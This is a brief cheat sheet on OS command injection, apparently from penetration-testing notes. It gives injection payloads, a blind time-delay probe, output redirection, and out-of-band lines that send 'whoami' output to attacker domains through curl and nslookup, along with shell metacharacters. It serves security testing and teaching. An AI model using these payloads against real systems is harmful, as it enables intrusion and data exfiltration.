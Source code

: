 ```yaml
---
title: "OS command injection"
weight: 18
---
```


# OS command injection

## Command injection

```sh
& echo qwerty &
```

Placing `&` after the injected command is generally useful because it separates the injected command from whatever follows the injection point.

## Blind OS command

**Detection**

```sh
# 10 sec. time delay
& ping -c 10 127.0.0.1 &
```

**Exploit**

1. Redirecting output. Note: you must have write permission

```sh
& whoami > /var/www/static/whoami.txt &
curl https://website.com/whoami.txt
```

2. Out-of-band techniques

```sh
& curl `whoami`.webserver-attacker.com & # HTTP traffic may be blocked
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

## Bypass restriction

There are so many ways: [https://book.hacktricks.wiki/linux-hardening/bypass-bash-restrictions/index.html](https://book.hacktricks.wiki/linux-hardening/bypass-bash-restrictions/index.html)

## Metacharacters

```sh
# Windows & Unix
&
&&
|
||

# Unix
;

# Unix inline execution
`command`
$(command)
```
